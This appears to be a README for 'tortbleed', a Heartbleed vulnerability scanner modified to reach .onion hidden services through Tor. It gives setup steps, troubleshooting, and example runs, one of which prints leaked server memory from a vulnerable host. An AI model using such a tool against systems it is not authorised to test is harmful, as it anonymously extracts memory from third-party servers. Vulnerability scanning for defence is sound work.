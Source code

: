 tortbleed
=========

Modification of Samiux's Heartbleed Reload scanner to allow direct scanning of .onion addresses.

==========System Requirements==========

- SocksiPy ( Available here: https://github.com/mikedougherty/SocksiPy ).

- urllib2 ( Available here, amongst others for python2.7:
  https://github.com/python-git/python/blob/master/Lib/urllib2.py ).

- socket ( Available here, amongst others for python2.7:
  https://github.com/python-git/python/blob/master/Lib/socket.py ).

- A local tor server configured to allow you to connect through it to endpoints.  You do not
  necessarily need to configure it as a relay, so long as your IP is configured in a
  'SocksPolicy accept' rule.  Being configured as a relay will not have a negative impact,
  though, should you have that set-up.

- Python 2.7, as this was the only version I tested this script against.  Please feel free to
  modify it to work with whatever version you might be using other than 2.7.

==========Setup & Usage==========

You must do the following, or this scanner just wont work:

1. Ensure you have installed and setup Tor on a system accessible to you to ensure you can
   bounce through it via this script.

2. Edit your copy of torwrapper.py to suit your Tor instance ip / hostname and port to access,
   on lines 11 & 12.

3. Copy the edited torwrapper.py file to your Python site-packages directory.

4. Ensure you have installed the SocksiPy, socket, and urllib2 site-packages properly.

Once those steps are completed, you can then run the scanner.  The usage output is below, along
with an example with output:

# ./tortbleed.py <snipped for privacy>.onion
Starting Tor Daemon & Connecting to Tor Network...
Connected to Tor Relay. My ip is 188.138.9.49 (atlantic480.us.unmetered.com)
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 2483
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request... Unexpected EOF receiving record header - server closed connection
No heartbeat response received, server likely not vulnerable

# ./tortbleed.py 192.168.1.43
Connecting to non-onion address...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 58
 ... received message: type = 22, ver = 0302, length = 961
 ... received message: type = 22, ver = 0302, length = 525
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
 Received heartbeat response:
 0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
 0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
 0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
 0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
 0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
 0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
 0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
 0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
 0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
 0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
 00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
 00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
 00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
 00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
 --snipped output remaining output for readme brevity--

WARNING: server returned more data than it should - server is vulnerable!

==========Troubleshooting==========

You may get tracebacks because I haven't included any error handling.
The two most common I found during testing are explained below.

1 - socks.Socks5Error: ((2, 'connection not allowed by ruleset'),)
This occurs when the Tor Relay you are connected to for this particular scan doesn't allow
outgoing connections to the .onion you are attempting to scan.  Most often, attempting another
run of the same command will connect you to another Relay and allow this to go through.  If,
however, you hit the same error, another few attempts may be required.

2 - socks.Socks5Error: ((91, 'request rejected or failed'),)
This happens when connection to the .onion endpoint fails to successfully complete through the
Tor Relay you are connected through.  This can be for a number of reasons, and may be worth
trying once more.  Same result usually means problems with the .onion server (either not having
the port you're attempting to scan on enabled, or other connection-related issues).

Good luck!

